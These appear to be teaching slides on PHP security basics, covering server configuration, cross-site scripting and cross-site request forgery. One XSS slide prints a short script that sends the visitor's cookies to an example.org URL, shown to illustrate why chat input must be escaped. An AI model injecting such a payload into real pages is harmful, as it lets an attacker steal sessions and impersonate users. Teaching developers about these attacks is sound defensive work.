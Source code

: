 > The ultimate goal of caching: Computing any result only once

---
## Security
The basics of security is all about configuring your server right.

Here is the official [PHP manual](http://php.net/manual/en/security.php) 

[Here are some basics recomendations](http://www.cyberciti.biz/tips/php-security-best-practices-tutorial.html) 

--
## XSS
Cross-site scripting (XSS) is one of the most common attacks. 

The simplicity of this attack and the number of vulnerable applications in existence make it very attractive to malicious users. 

An XSS attack exploits the user’s trust in the application

It can happen anytime you dump into your code, some user input (images, url, text, etc.)

--
## XSS
Consider a form where a user can enter some text, like a input chat box for example.

The user message will appear in the current "room" of users.
What if you forgot to escape the user input before displaying it in the html view and a user type this:

```javascript
  < script> // I add an extra space just to display it correctly
  document.location = 'http://example.org/getcookies.php?cookies=' + document.cookie;
  < /script>
```

What happens ?

--
## XSS
> - No one will see any meaningful message in the chat 
- All users in the room will be redirected to the given URL and their cookies will be compromised. 

**Now the attacker can impersonate all the users...**

More information on XSS
- [Wikipedia](https://en.wikipedia.org/wiki/Cross-site_scripting) 
- [OWASP](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS&#41;) 

-- 
## CSRF
A cross-site request forgery (CSRF) is 
- An attack that attempts to cause a victim to send arbitrary HTTP requests
- Usually to URLs requiring privileged access
- Using the victim’s existing session to gain access. 
